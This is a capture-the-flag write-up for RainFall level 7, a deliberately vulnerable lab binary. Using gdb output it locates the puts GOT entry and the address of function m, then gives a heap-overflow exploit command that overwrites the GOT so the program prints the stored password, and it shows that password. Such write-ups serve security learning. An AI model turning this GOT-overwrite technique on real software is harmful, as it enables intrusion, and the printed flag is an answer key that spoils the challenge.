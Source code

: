 # Level 7

we want to call `m()` to print the password read into the global variable `c`

```shell
level7@RainFall:~$ gdb -q ./level7 
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```
0x08049928 value of puts in GOT
0x080484f4 value of m

can't pass argv[2] to gdb, most annoying to get the offset, I assumed 16 but it actually overrides the address of  `b[1]` in the third malloc at a padding of 20

```shell
level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')                        

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668625280
```
